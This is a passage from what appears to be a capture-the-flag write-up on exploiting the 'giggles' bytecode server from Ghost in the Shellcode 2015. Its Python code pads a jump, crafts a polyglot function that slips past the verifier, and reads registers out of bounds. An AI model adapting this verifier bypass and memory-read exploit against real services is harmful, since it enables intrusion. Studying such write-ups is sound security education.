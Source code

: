     785 · X + 5 = 5 + 26 · Y

The solution with the smallest positive *X* is *X = 26* and *Y = 785*.  So we
have to add 24 functions as padding and we need to jump to instruction 785.
This is the setup code that makes a connection and adds all the boilerplate
functions:

{% highlight python %}
def preamble():
    #sockfd = socket.create_connection(('localhost', 1423))
    sockfd = socket.create_connection(('giggles.2015.ghostintheshellcode.com', 1423))

    ins_size = 2 + 3*8
    func_size = 2 + 2 + 1 + 30*ins_size
    jmp_target = func_size

    operations = ""
    for _ in xrange(30):
        operations += createOperation(OP_BR, 30, 0, 0)
    trampoline_func = createFunction(30, 0, operations)
    addFunction(sockfd, trampoline_func)
    verifyFunction(sockfd, 0)

    s = struct.pack("<HQ", 1, jmp_target) + "A"*5
    num_ops, num_args, verified, opcode, op1 = struct.unpack("<HHBHQ", s)
    assert num_ops == OP_BR
    assert verified == 0

    operations = ""
    operations += createOperation(opcode, op1, 0, 0)
    polyglot_func = createFunction(num_ops, num_args, operations)
    addFunction(sockfd, polyglot_func)

    for _ in xrange(ins_size - 2):
        operations = ""
        operations += createOperation(OP_ADD, 1, 2, 3)
        operations += createOperation(OP_ADD, 1, 2, 3)
        addFunction(sockfd, createFunction(2,0,operations))
    return sockfd
{% endhighlight %}

The function we add *after this* is the one that is going to get called eventually
if we call the *first* function. Now we can run arbitrary bytecode! E.g., here
is a function that reads the `w`th register value, without bounds checking:

{% highlight python %}
def read_relative(w):
    sockfd = preamble()
    operations = createOperation(OP_OUT, w+1, 0, 0)
    operations += createOperation(OP_OUT, w, 0, 0)
    addFunction(sockfd, createFunction(2, 0, operations))
    s = runFunction(sockfd, 0, [])
    return int("".join(s.split()), 16)
{% endhighlight %}

It actually uses two `OP_OUT` instructions to read a 64-bit value. This will
basically return `*(uint64_t*)(registers + w)`. To verify that this works, we can
run the server in a debugger. We had to NOP out a call to `alarm` to avoid being
interrupted while debugging. This shows a call to `read_relative(1337)`:
